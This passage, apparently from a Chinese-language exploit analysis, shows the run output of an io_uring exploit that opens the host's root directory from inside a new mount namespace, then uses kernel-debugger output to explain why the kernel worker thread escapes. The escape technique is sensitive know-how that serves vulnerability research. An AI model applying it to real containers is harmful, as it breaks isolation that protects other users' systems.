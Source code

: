 接着运行 exp， 它会打开`/` 目录，返回的`fd`是 5

```
/home/pwn # /exp
submitted 1, getevents done
cq_tail = 1
result: 5
launching shell
sh: can't access tty; job control turned off
/home/pwn # echo $$
223
/home/pwn # ls -al /proc/$$/fd/
total 0
dr-x------    2 root     0                0 Apr 15 02:58 .
dr-xr-xr-x    9 root     0                0 Apr 15 02:57 ..
lrwx------    1 root     0               64 Apr 15 02:58 0 -&gt; /dev/console
lrwx------    1 root     0               64 Apr 15 02:58 1 -&gt; /dev/console
lrwx------    1 root     0               64 Apr 15 02:58 2 -&gt; /dev/console
lr-x------    1 root     0               64 Apr 15 02:58 4 -&gt; /
l---------    1 root     0               64 Apr 15 02:58 5 -&gt; /
/home/pwn # cat /proc/$$/fd/5/tmp/real
aaaa
```

进去看一下可以发现这里打开的是原来namespace的`"/"` 目录。

linux 默认情况下所有的进程都会有一个系统默认的namespace, 也就是说本身linux就是一个最初的容器，我们新的namespace只是在最初的容器下创建一个新容器罢了。

从前面的分析我们知道，最后由于是异步的调用，会在内核线程`io_wqe_worker-0` 里调用 `do_filp_open` `来打开目录， 所有的内核线程都继承自`kthreadd` 线程，使用的是默认的mount namespace

```
gef➤  kcurrent                                           
smp system (__per_cpu_offset) 0xffffffff8245c920         
cpu_num 0x1                                              
swapper_pgd 0x0                                          
cpu #0 : 0xffff88800f200000                              
    current_task: 0xffff88800d080000  :io_wqe_worker-0   
        uid: 0x0   gid: 0x0  :cred 0xffff88800eec2840    
        mm: 0x0                                          
        pgd: 0x0                                         
gef➤  kproc                                                     
0x1  :init            :  uid: 0  task: 0xffff88800ed88000
0x2  :kthreadd        :  uid: 0  task: 0xffff88800ed89600
0x3  :rcu_gp          :  uid: 0  task: 0xffff88800ed8ac00
//...
0xcf :sh              :  uid: 0  task: 0xffff88800d085800
0xd2 :exp             :  uid: 0  task: 0xffff88800d084200//
0xd3 :io_wq_manager   :  uid: 0  task: 0xffff88800d081600
0xd4 :io_wqe_worker-0 :  uid: 0  task: 0xffff88800d080000//

```

我们看一下他们的namespace
